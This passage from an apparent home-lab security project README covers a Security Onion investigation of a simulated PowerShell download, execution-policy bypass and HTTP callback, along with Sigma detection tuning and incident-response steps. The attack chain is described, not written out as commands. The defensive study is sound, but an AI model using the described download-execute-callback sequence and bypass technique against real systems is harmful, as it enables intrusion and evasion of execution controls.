The case also documented the response actions that would be appropriate if the same behavior appeared unexpectedly in a production environment.



### Case Closure

The final case disposition was:

```text
True Positive — Authorized/Benign Lab Activity
```

Impact:

```text
None
```

Remediation:

```text
None required
```

Detection improvement:

```text
Completed and validated
```


The case was closed only after the telemetry had been correlated, the behavior had been scoped, the detection gap had been addressed, and the controlled nature of the activity had been confirmed.

---

## Findings and Analyst Verdict

The investigation confirmed a complete, observable PowerShell activity chain from delivery through post-execution behavior.

Key findings:

* PowerShell downloaded `win-update.ps1` over HTTP from the controlled Kali server
* the custom download Sigma rule generated a high-severity alert
* Zeek recorded the successful HTTP request and transferred file
* Zeek observed all `709` bytes of the downloaded object
* locally calculated MD5 and SHA1 hashes matched Zeek's network-side file hashes
* the downloaded script was reviewed before execution
* `explorer.exe` initiated PowerShell execution of the script
* the PowerShell command line contained a process-scoped execution-policy bypass
* PowerShell launched `whoami.exe` and `cmd.exe`
* the controlled script created two local artifacts
* PowerShell initiated an HTTP callback to `192.168.56.10:8080`
* endpoint, Zeek, and Suricata telemetry independently described the callback
* a combined timeline linked process, file, network, Zeek, and Suricata events
* a detection gap was identified around the execution-policy-bypass behavior
* a behavioral high-severity Sigma rule was created to cover the gap
* controlled validation confirmed that the new detection generated the expected alert
* network scoping found no other observed source communicating with the controlled server during the reviewed one-day window
* endpoint scoping found no equivalent PowerShell bypass behavior on another monitored host during the same window
* the transfer behavior mapped to MITRE ATT&CK `T1105`
* PowerShell execution mapped to MITRE ATT&CK `T1059.001`
* the investigation was documented and closed through Security Onion case management

The activity was intentionally generated and therefore benign in this lab. In a real environment, however, the combination of script transfer, execution from a user-writable directory, execution-policy bypass, child-process creation, file creation, and outbound HTTP activity would justify deeper investigation.

No single indicator proves compromise by itself. The strength of the investigation comes from correlation across independent endpoint and network sources.

---

## Detection Engineering Lessons

This project demonstrated an important SOC principle:

> **Telemetry visibility is not the same as alert coverage.**

Security Onion already contained enough endpoint telemetry to identify the PowerShell execution-policy bypass manually. The initial gap was that the behavior did not automatically surface as a dedicated high-severity alert.

The custom Sigma rule converted that hunt-only evidence into a repeatable detection.

The rule was designed around behavior rather than the lab filename, which improves portability:

```text
PowerShell
+
process-scoped execution-policy bypass
+
user-writable path
```

This is stronger than matching only:

```text
win-update.ps1
```

because filenames are easy to change while the behavioral pattern can remain consistent.

The rule still requires tuning in a real environment. Administrators and software deployment tools can legitimately use PowerShell, writable directories, or temporary execution-policy changes. Context such as parent process, user, endpoint role, script path, signing state, and surrounding network activity should be considered before treating a match as malicious.

---

## Recommendations and Remediation

If equivalent activity occurred unexpectedly in a production environment, appropriate analyst actions would include:

* identify the affected endpoint, user, and business context
* determine whether the PowerShell download and execution were authorized
* preserve the downloaded file and calculate cryptographic hashes
* review the complete PowerShell command line and parent process
* inspect the full process tree for additional child execution
* review PowerShell script-block logging where available
* inspect newly created or modified files associated with the execution
* correlate endpoint network events with Zeek, proxy, firewall, and IDS telemetry
* investigate the delivery domain, URL, destination IP, and related infrastructure
* hunt across other endpoints for the same filename, SHA256, execution-policy bypass pattern, domain, URL, and destination
* review the affected user's authentication activity and sessions for signs of broader compromise
* determine whether persistence or additional payloads were created
* isolate the endpoint if the activity is confirmed unauthorized and containment is appropriate
* block confirmed malicious domains, URLs, hashes, or infrastructure according to organizational procedures
* preserve forensic evidence before destructive remediation
* deploy and tune behavioral detections for suspicious PowerShell execution patterns
* validate newly created detections in a controlled environment before relying on them operationally
* monitor for recurrence after containment and remediation

In this lab, no remediation was required because the activity was intentionally generated using a benign payload inside an isolated environment.

---

## Evidence Selection

The repository contains more screenshots than are embedded above. This was intentional: the investigation preserved detailed evidence during each stage, while the main README uses the strongest screenshots needed to tell the investigation clearly.

Additional evidence in the `screenshots/` directory includes:

```text
03-sigma-powershell-download-process-details.png
04-suricata-ps1-http-request-details.png
13-post-execution-network-alerts.png
29-case-closure-notes.png
```

These files provide deeper supporting detail without making the main investigation narrative unnecessarily repetitive.

---

## What I Learned

<!-- Write this section yourself. -->
